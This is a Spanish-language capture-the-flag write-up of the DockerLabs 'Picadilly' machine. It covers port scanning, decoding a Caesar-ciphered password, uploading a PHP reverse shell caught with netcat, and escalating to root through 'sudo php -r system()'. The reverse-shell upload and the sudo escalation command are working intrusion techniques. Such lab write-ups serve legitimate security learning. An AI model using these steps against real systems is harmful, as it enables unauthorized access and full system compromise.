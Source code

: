 ```yaml
---
title: DockerLabas Writeup Picadilly
published: true
---
```


![logo](../assets/images-Picadilly/logo.png)

-----------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:02 -03
Initiating ARP Ping Scan at 21:02
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 21:02, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:02
Scanning 10.88.0.2 [65535 ports]
Discovered open port 443/tcp on 10.88.0.2
Discovered open port 80/tcp on 10.88.0.2
Completed SYN Stealth Scan at 21:02, 0.86s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-07-24 21:02:18 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Como vemos encontramos el puerto 80 y 443 estos dos puertos tienen una pagina web
```bash
❯ nmap -p80,443 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:04 -03
Nmap scan report for 10.88.0.2
Host is up (0.000045s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Vamos a la pagina web por el puerto 80 donde tenemos capacidad de directory listing que tiene un recurso llamado backup.txt

![Pasted image 20240724210723.png](../assets/images-Picadilly/Picadilly1.png)

Este recurso vemos que hay una contraseña que esta en cifrado cesar 

![Pasted image 20240724210859.png](../assets/images-Picadilly/Picadilly2.png)

A esto lo podemos descifrar de la siguiente manera
```bash
❯ echo "hdvbfuadcb" | tr 'a-z' 'x-za-w'
easycrxazy
```
y si queremos practicar un poquito de scripting en bash podemos realizar el siguiente script, para probar todas las combinatorias de desplazamiento e ir viendo los mensajes desencriptados 


```bash
 encrypted_message="hdvbfuadcb" 
 for shift in {1..25}; do echo -n "Desplazamiento $shift: " echo "$encrypted_message" | tr $(echo {a..z} | sed -r 's/ //g') $(echo {a..z} | sed -r "s/ //g;s/(.{$shift})(.*)/\2\1/") 
done
```
Lo ejecutamos
```bash
❯ ./decrypt.sh
Desplazamiento 1: hdvbfuadcb
Desplazamiento 2: iewcgvbedc
Desplazamiento 3: jfxdhwcfed
Desplazamiento 4: kgyeixdgfe
Desplazamiento 5: lhzfjyehgf
Desplazamiento 6: miagkzfihg
Desplazamiento 7: njbhlagjih
Desplazamiento 8: okcimbhkji
Desplazamiento 9: pldjncilkj
Desplazamiento 10: qmekodjmlk
Desplazamiento 11: rnflpeknml
Desplazamiento 12: sogmqflonm
Desplazamiento 13: tphnrgmpon
Desplazamiento 14: uqioshnqpo
Desplazamiento 15: vrjptiorqp
Desplazamiento 16: wskqujpsrq
Desplazamiento 17: xtlrvkqtsr
Desplazamiento 18: yumswlruts
Desplazamiento 19: zvntxmsvut
Desplazamiento 20: awouyntwvu
Desplazamiento 21: bxpvzouxwv
Desplazamiento 22: cyqwapvyxw
Desplazamiento 23: dzrxbqwzyx
Desplazamiento 24: easycrxazy
Desplazamiento 25: fbtzdsybaz
```
Veremos si esta contraseña va en la otra pagina web que corre por el puerto 443, pero como vemos no hay pagina de login pero si de subida de archivos 

![Pasted image 20240724215121.png](../assets/images-Picadilly/Picadilly3.png)

Probaremos esta subida de archivo para ver si nos deja subir un php malicioso que nos otorgue una reverse shell o nos permita ejecutar comando, veremos que nos reporta whatweb sobre esta pagina


```bash
❯ whatweb https://10.88.0.2:443
https://10.88.0.2:443 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.88.0.2], Title[Picadilly]
```
Vemos que nos descubre gran cosa por lo que procedemos a subir un php malicioso que nos otorgue  una reverse shell, vamos a github y descargamos [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) y lo editamos con nuestra Ip y puerto de escucha

![Pasted image 20240724221912.png](../assets/images-Picadilly/Picadilly4.png)

ahora subimos el archivo y nos ponemos en escucha por el puerto 443

![Pasted image 20240724222013.png](../assets/images-Picadilly/Picadilly5.png)

Vemos que el archivo se sube pero no, nos lo interpreta por lo tanto probamos si es que hay una ruta llamda uploads, vemos que efectivamente si existe

![Pasted image 20240724222923.png](../assets/images-Picadilly/Picadilly6.png)

Una vez que clickeamos el archivo que subimos vermos que nos otorga una reverse shell


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.10.111] from (UNKNOWN) [10.88.0.2] 51338
Linux eae50915364f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 01:28:47 up  2:02,  0 user,  load average: 0.12, 0.35, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
ahora hacemos un tratamiento de la tty
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eae50915364f:/$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

#### Privelege Escalation
Tenemos el usuario mateo y como de antes desciframos su contraseña vamos a pivotar a este usuario
```bash
www-data@eae50915364f:/home$ ls
mateo
```
A la contraseña debemos hacerle un pequeño cambio, esto tienen que hacerlo con pura intuicion
```bash
www-data@eae50915364f:/home$ su mateo
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo  
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo 
Password: 
mateo@eae50915364f:/home$ 
```
Ahora veremeos como hacemos para escalar a root

### Root
Vemos que tenemos capacidad para ejecutar el comando php como sudo, y a esto lo vamos a estar ejecutando como root
```bash
mateo@eae50915364f:/home$ id
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo@eae50915364f:/home$ sudo -l 
Matching Defaults entries for mateo on eae50915364f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on eae50915364f:
    (ALL) NOPASSWD: /usr/bin/php
mateo@eae50915364f:/home$ 
```
Si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) vemos que podemos escribir el siguiente comando para darnos una bash como root
![Pasted image 20240724224506.png](../assets/images-Picadilly/Picdailly7.png)
entonces ejecutamos este comando que va a crear una variable CMD lo que va hacer es que vale /bin/bash luego ejecutando el privilegio sudo va hacer una llamada a nivel de sistema a esta variable CMD
```bash
mateo@eae50915364f:/home$ CMD="/bin/bash"
sudo php -r "system('$CMD');"
root@eae50915364f:/home# whoami
root
root@eae50915364f:/home# 
```
